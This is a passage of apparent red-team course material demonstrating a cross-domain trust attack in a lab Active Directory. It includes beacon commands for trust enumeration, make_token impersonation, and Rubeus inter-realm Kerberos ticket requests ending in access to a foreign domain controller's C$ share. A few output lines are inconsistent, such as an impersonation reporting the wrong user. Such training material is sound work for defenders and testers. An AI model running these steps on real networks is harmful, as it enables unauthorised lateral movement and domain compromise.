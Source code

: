 # One way (inbound)

**dev.cyberbotic.io** has a one-way inbound trust with **subsidiary.external**.

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : subsidiary.external
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM
```

Because the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust.

```
beacon> powershell Get-DomainComputer -Domain subsidiary.external -Properties DNSHostName

dnshostname           
-----------           
ad.subsidiary.external
```

`SharpHound -c DcOnly -d subsidiary.external` will also work.

`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.

```
beacon> powershell Get-DomainForeignGroupMember -Domain subsidiary.external

GroupDomain             : subsidiary.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=subsidiary,DC=external
MemberDomain            : subsidiary.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=subsidiary,
                          DC=external
```

This output shows that there's a member of the domain's built-in Administrators group who is not part of subsidiary.external. The **MemberName** field contains a SID that can be resolved in our current domain.

```
beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\Subsidiary Admins
```

If this is confusing, this is how it looks from the perspective of the subsidiary.external's domain controller.

![.gitbook/assets/1664530471_7127.png](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-trusts/subsidiary-foreign-group-member.png)

`Get-NetLocalGroupMember` can enumerate the local group membership of a machine. This shows that `DEV\Subsidiary Admins` is a member of the local Administrators group on the domain controller.

```
beacon> powershell Get-NetLocalGroupMember -ComputerName ad.subsidiary.external

ComputerName : ad.subsidiary.external
GroupName    : Administrators
MemberName   : DEV\Subsidiary Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True
```

This is a slightly contrived example - you may also enumerate where foreign groups and/or users have been assigned local admin access via Restricted Group by enumerating the GPOs in the foreign domain.

To hop the trust, we need to impersonate a member of this domain group. If you can get clear text credentials, `make_token` is the most straight forward method.

```
beacon> powershell Get-DomainGroupMember -Identity "Subsidiary Admins" | select MemberName

MemberName
----------
jadams

beacon> make_token DEV\jadams TrustNo1
[+] Impersonated DEV\bfarmer

beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/11/2021 18:00:26   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     02/17/2021 18:50:04   Users
          dir     02/19/2021 22:34:47   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 384mb    fil     03/16/2021 10:48:25   pagefile.sys
```

If you only have the user's RC4/AES keys, we can still request Kerberos tickets with Rubeus but it's more involved. We need an inter-realm key which Rubeus won't produce for us automatically, so we have to do it manually.

First, we need a TGT for the principal in question. This TGT will come from the current domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jadams /domain:dev.cyberbotic.io /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

[*] Action: Ask TGT
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256-cts-hmac_sha1 hash: 70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jadams'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MuSU8=

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:00:28 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  3/23/2021 1:00:28 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  mnuk66R9/j0cnmZczy8ACxBfn5VcZ5pFubm3tI79KZ4=
```

Next, request a referral ticket from the current domain, for the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:krbtgt/subsidiary.external /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFdD[...snip...]MuSU8= /nowrap

[*] Action: Ask TGS
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/subsidiary.external'
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFMT [...snip...] 5BTA==

  ServiceName           :  krbtgt/SUBSIDIARY.EXTERNAL
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:02:06 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, pre_authent, forwardable
  KeyType               :  rc4-hmac
  Base64(key)           :  O7B/KR3+DvhlpY6qwrTlHg==
```

&#x20; Notice how this inter-realm ticket is of type `rc4_hmac` even though our TGT was `aes256_cts_hmac_sha1`. This is the default configuration unless AES has been specifically configured on the trust, so this is not necessary "bad OPSEC".

Finally, use this inter-realm TGT to request a TGS in the target domain.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgs /service:cifs/ad.subsidiary.external /domain:ad.subsidiary.external /dc:ad.subsidiary.external /ticket:doIFMT[...snip...]5BTA== /nowrap

[*] Action: Ask TGS
[*] Using domain controller: ad.subsidiary.external (10.10.14.55)
[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/ad.subsidiary.external'
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFsD [...snip...] JuYWw=

  ServiceName           :  cifs/ad.subsidiary.external
  ServiceRealm          :  SUBSIDIARY.EXTERNAL
  UserName              :  jadams
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/16/2021 1:08:52 PM
  EndTime               :  3/16/2021 11:00:28 PM
  RenewTill             :  1/1/0001 12:00:00 AM
  Flags                 :  name_canonicalize, ok_as_delegate, pre_authent, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  HPmz324aewyZ6El4LGoVEksQEvkI3eoSiy7gAlgEXbU=
```

Write this base64 encoded ticket to a file on your machine.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\subsidiary.kirbi", [System.Convert]::FromBase64String("doIFiD [...snip...] 5hbA=="))
```

Create a sacrificial logon session and import the ticket.

```
beacon> make_token DEV\jadams FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Daniel\Desktop\subsidiary.kirbi
beacon> ls \\ad.subsidiary.external\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 10:03:50   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/16/2021 12:15:11   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 22:51:50   System Volume Information
          dir     05/16/2021 11:58:30   Users
          dir     05/16/2021 11:31:57   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     05/25/2021 08:39:47   pagefile.sys

 beacon> rev2self
```

Foreign Principals can also have DACL abuse primitives, where `DEV\Subsidiary Admins` could have abusable DACLs on principals within the `subsidiary.external` domain.
